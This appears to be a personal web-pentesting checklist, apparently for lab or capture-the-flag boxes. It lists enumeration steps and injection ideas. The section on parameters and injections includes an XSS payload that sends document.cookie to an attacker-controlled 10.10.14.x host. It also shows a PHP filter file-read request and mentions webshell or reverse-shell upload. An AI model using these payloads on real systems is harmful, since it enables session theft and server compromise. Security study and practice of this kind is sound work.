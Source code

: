 
What's running
	check nmap
	look at web page
	view source code
	burp
		check X-Powered-By header

robots.txt

Google
	"technology/framework" exploit
	poc
	cve

What's the file structure
	Directory busting
	[[InfoSec/Tools n Info/02 - Web Exploration/Fuzzing/gobuster|gobuster]]
	[[feroxbuster|feroxbuster]]

virtual hosts

checking for REST Endpoints or GET/POST parameters to exploit
	are there forms
	.ajax() call (if jQuery)
	.fetch 
	in browser
		forms: we find on the webpage - open the network tab in the dev tools of the browser - send off the form - see where the connection goes to in the network tab

Checking for REST Endpoints in the information we collected (source code or directory busting)

Parameters & Injections
	try changing id= 1 to 2 ... '
	"/item/13" <- change the 13 to 1 or 0
	html injections
		`<img src='http://10.10.14.156:8000/dog.jpg'>`
		`<img src='a' onerror='var i=new Image;i.src="http://10.10.14.156:8000/?"%2bdocument.cookie;'>`
	SQLi
	commands in the os's shell
	commands in programming language

Where ^
	forms
	parameters in url

PHP filter
	PHP://filter/convert.base64-encode/resource=
	example: `GET /test.php?view=PHP://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php HTTP/1.1`

webshell or revshell upload
	use what the system is built on; php, python django, vbscript node.js... perl might also work

